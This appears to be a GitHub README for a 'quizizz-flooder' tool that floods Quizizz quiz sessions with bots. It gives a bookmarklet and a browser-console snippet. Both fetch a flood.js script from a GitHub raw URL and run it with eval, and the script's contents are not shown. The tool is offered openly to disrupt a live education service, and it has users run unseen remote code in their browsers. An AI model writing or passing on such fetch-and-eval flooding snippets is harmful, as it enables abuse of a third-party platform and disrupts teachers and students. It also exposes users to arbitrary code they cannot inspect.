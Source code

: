 # I have updated version just make a pull request and ill update it
# Flood Quizizz with bots
Using Bookmarklet
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into bookmark bar and click it
```js
javascript:(function()%7Bfetch(%22https%3A%2F%2Fraw.githubusercontent.com%2Fseanv999%2Fquizizz-flooder%2Fmain%2Fflood.js%22)%0A.then((res)%20%3D%3E%20res.text()%0A.then((t)%20%3D%3E%20eval(t)))%7D)()%3B
```
Using console
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into console
```js
fetch("https://raw.githubusercontent.com/seanv999/quizizz-flooder/main/flood.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
![image](https://user-images.githubusercontent.com/79374771/162595454-64e57d15-24de-41a5-a690-1db4ce278f60.png)

# Confused? Watch this video!
coming soon
